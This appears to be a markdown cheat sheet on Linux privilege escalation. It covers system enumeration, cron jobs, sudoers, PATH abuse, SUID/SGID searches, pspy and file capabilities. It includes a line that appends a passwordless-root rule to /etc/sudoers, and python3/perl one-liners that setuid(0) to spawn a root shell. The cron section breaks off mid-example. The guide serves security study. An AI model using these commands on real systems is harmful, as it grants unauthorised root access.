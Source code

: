 ### System Information

##### Distribution 

```bash
cat /etc/issue # Text file which contains a message or system identification to be printed before the login prompt.
cat /etc/*-release
cat /etc/lsb-release # Contain the LSB_VERSION field. 
# The value of the field should be a colon separated list of supported module
# versions indicating the LSB specification modules to which the installation is compliant. 
cat /etc/redhat-release
lsb_release -all # Prints certain LSB (Linux Standard Base) and Distribution information
```

##### Kernel Version

- at [/proc/version](https://docs.fedoraproject.org/en-US/Fedora/14/html/Deployment_Guide/s2-proc-version.html): This file specifies the version of the Linux kernel, the version of gcc used to compile the kernel, and the time of kernel compilation.
- [uname -a](https://linux.die.net/man/1/uname): Print all system information
- [uname -mrs](https://linux.die.net/man/1/uname): Print the machine hardware name *m*, kernel release *r* and the kernel-name *s*
- rpm -q kernel: Print the kernel version using the RPM Package Manager
- [dmesg](https://man7.org/linux/man-pages/man1/dmesg.1.html) | grep Linux: Print or control the kernel ring buffer
- ls /boot | grep vmlinuz-: Grep the name the Linux kernel executable within the boot partition

### Cron Jobs

Since Cron runs as root when executing /etc/crontab, any commands or scripts that are called by the crontab will also run as root. 

```bash
crontab -e # Edit the current crontab using the  editor specified by the VISUAL or EDITOR environment variables.
crontab -l # Display all user's jobs in cron / crontab
```

- /etc/crontab: System crontab. Cron will run as the **root** user when executing scripts and commands in this file.
- /etc/anacrontab: Cron will run as the **root** user when executing scripts and commands in this file.
*Nowadays the file is empty by default.
Originally it was usually used to run daily, weekly, monthly jobs. By default these jobs are now run through anacron which reads /etc/anacrontab configuration file.*
- /var/spool/cron: *Directory that contains user crontables created by the crontab command.*
- /etc/cron.d: *Directory that contains system cronjobs stored for different users.*

Cron examines all stored crontabs and checks each job to see if it needs to be run in the current minute.

1. Search if there are script executed that you can write
2. Search for wildcard injection vulnerability
   
   **Chown** has a *--reference=some-reference-file* flag, which specifies that the owner of the file should be the same as the owner of the reference file. An example should help:



##### Sudoers

```bash
sudo -l # Check if they are scripts than once launch, they are run as root
echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

###### *If you don't know, now you know: [Sudoers](https://help.ubuntu.com/community/Sudoers)*

The /etc/sudoers file controls who can run what commands as what users on what machines and can also control special things such as whether you need a password for particular commands.

You can use **PASSWD** and **NOPASSWD** to specify whether the user has to enter a password or not

##### $PATH
```bash
echo $PATH
```
If you notice '.' in environment PATH variable it means that the logged user can execute binaries/scripts from the current directory and it can be an excellent technique for an attacker to escalate root privilege.

```bash
find / -perm -u=s -type f # Search for program with the SUID
find / -perm -g=s -type f # Search for program with the SGID
```



###### *If you don't know, now you know: [PATH]()*

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.
When the user run any command on the terminal, its request to the shell to search for executable files with the help of PATH Variable in response to commands executed by a user. 

###### *If you don't know, now you know: [SUID & SGID]()*

- **SUID** (**S**et owner **U**ser **ID** up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs
- **SGID** (**S**et owner **G**roup **ID** up on execution) same as SUID for groups.

### Linux Processes
1. pspy

[pspy](https://github.com/DominicBreuker/pspy#how-it-works) is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. 
It heavily uses the [inotify API](https://man7.org/linux/man-pages/man7/inotify.7.html) provides a mechanism for monitoring filesystem events.
Inotify can be used to monitor individual files, or to monitor directories.


### Linux Capabilities 
1. getcap

The [getcap](https://www.man7.org/linux/man-pages/man8/getcap.8.html) command displays the name and capabilities of each specified file.
To recursively check the capabilities of all files you have access, use the following command **getcap -r / 2>/dev/null**
For instance, you can find Python or Perl that are assigned to root and you can do the following then:
- ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
- ./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'


###### *If you don't know, now you know: [Capabilities](https://linux.die.net/man/7/capabilities)*

Starting with kernel 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as *capabilities*, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

Some capabilities to look for are:
- **CAP_CHOWN**: Make arbitrary changes to file UIDs and GIDs (SUIDs and SGIDs as well) 
- **CAP_DAC_OVERRID**: Bypass file read, write, and execute permission checks.
- **CAP_DAC_READ_SEARCH**: Bypass file read permission checks and directory read and execute permission checks
- **CAP_SETGID**: Make arbitrary manipulations of process GIDs and supplementary GID list
- **CAP_SETUID**: Make arbitrary manipulations of process UIDs


#### Sources:

https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/


Sources:

https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/